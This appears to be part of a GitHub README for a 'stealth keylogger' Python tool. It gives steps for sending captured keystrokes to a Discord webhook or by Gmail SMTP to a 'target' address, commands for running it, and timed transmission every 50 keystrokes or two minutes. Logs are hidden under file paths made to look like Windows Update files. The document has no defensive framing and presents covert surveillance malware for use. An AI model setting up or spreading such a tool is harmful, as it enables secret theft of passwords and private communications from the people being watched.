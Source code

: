 ## Configuration

### Discord Webhook Setup
1. Create a Discord server and channel
2. Generate webhook URL in channel settings
3. Update `webhook_url` in `stealth_keylogger.py`

### Email Configuration (Optional)
Update email settings in `stealth_keylogger.py`:
```python
self.email_config = {
    'smtp_server': 'smtp.gmail.com',
    'smtp_port': 587,
    'sender_email': 'your_email@gmail.com',
    'sender_password': 'your_app_password',
    'receiver_email': 'target_email@domain.com'
}
```

## Usage

### Quick Start
```bash
python run_keylogger.py
```

### Direct Execution
```bash
python stealth_keylogger.py
```

### Programmatic Usage
```python
from stealth_keylogger import StealthKeylogger

keylogger = StealthKeylogger()
keylogger.start()
# ... your code ...
keylogger.stop()
```

## Operation Modes

### Automatic Transmission
- **Keystroke-based**: Every 50 keystrokes
- **Time-based**: Every 2 minutes
- **Event-based**: On shutdown/stop

### Data Storage
- **Primary**: `%APPDATA%\Local\Microsoft\Windows\Update\system32.log`
- **Backup**: `%APPDATA%\Local\Microsoft\Windows\Update\windows_update.log`
- **Format**: JSON with timestamp, key, and type information
